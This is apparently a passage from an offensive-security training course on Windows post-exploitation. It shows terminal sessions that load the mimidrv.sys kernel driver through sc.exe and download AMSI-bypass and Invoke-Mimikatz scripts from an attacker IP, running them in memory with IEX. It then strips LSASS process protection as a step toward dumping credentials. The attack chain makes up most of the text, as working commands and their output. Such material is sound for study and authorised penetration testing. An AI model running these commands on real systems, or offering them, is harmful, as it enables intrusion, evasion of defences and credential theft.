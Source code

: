 > Listing 32 - Migrating into spoolsv

Now we can manually load the driver with the sc.exe _Service Control_ application.[1](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_744-1) First, we'll create a service named "mimidrv", specify the file path of the driver through binPath=, set its type to "kernel", and the starting setting to "demand" with start=.

```
C:\Windows\system32> sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
[SC] CreateService SUCCESS

C:\Windows\system32> sc start mimidrv
sc start mimidrv

SERVICE_NAME: mimidrv 
        TYPE               : 1  KERNEL_DRIVER  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              : 
```

> Listing 33 - Load mimidrv.sys into the kernel

With the driver running, we can instruct it to turn off the LSASS PPL protection.

We'll disable AMSI and download and run Invoke-Mimikatz from memory as shown in Listing 34.

```
C:\Windows\system32> powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX
(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX

PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/mimikatz.txt') | IEX
(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/mimikatz.txt') | IEX

PS C:\Windows\system32> Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""
Hostname: web01.evil.com / authority\system-authority\system

  .#####.   mimikatz 2.2.0 (x64) #19041 May 20 2020 14:57:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 564 -> 00/00 [0-0-0]

PS C:\Windows\system32> 
C:\Windows\system32>
```
